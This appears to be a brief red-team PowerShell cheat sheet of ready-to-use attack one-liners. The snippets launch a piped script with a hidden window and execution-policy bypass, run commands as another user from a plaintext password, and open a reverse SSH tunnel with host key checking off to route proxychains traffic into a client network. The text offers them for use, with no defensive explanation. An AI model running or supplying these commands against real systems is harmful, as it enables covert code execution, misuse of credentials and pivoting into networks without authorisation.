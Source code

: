### Start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### Start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### Forward proxychains traffic into client network
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -c ssh -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<rhost>"
```

